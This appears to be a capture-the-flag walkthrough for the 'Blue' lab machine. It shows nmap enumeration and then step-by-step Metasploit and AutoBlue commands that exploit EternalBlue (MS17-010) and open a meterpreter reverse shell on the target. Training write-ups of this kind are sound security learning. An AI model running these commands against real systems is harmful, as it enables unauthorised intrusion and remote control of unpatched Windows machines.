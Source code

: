 # Blue

## 1. Overview

### 1.1. Attacks

* Eternal Blue

### 1.2. Tools used

**Enumeration** &rarr; `nmap`.

**Exploitation** &rarr; `AutoBlue`, `Metasploit`.

## 2. Walkthrough

### 2.1. Enumeration

#### 2.1.1. nmap

##### 2.1.1.1. Ports

![Blue Ports/Hosts](_v_images/20201007184456468_20261.png)

![Blue Ports](_v_images/20201007184616859_28756.png)

**Finding:** Port 445 (Windows 7 Professional 7601) &rarr; ETERNAL BLUE

##### 2.1.1.2. Host Details

![Blue Host Script Results](_v_images/20201007184823988_16132.png)

### 2.2. Exploitation

#### 2.2.1. Sources

[AutoBlue-MS17-010 ](https://github.com/3ndG4me/AutoBlue-MS17-010)

#### 2.2.2. Metasploit

To check if it is vulnerable to MS17-010:

```msf
msf5 > use auxiliary/scanner/smb/smb_ms17_010
msf5 auxiliary(scanner/smb/smb_ms17_010) > set rhosts 10.10.10.40
msf5 auxiliary(scanner/smb/smb_ms17_010) > run
```

Now onto exploitation:

```msf
msf5 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.10.40
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > run
```

#### 2.2.3. AutoBlue

To check if it will work:

```sh
python eternal_checker.py 10.10.10.40
```

Now onto exploitation:

```sh
shellcode/shell_prep.sh
```

```sh
./listener_prep.sh
```

Now we have a listener at the ports we determined, let's get the shell now. Open a new tab of the Terminal and run:

```sh
python eternalblue_exploit7.py 10.10.10.40 shellcode/sc_all.bin
```

And now we have a session in the previous tab with Metasploit.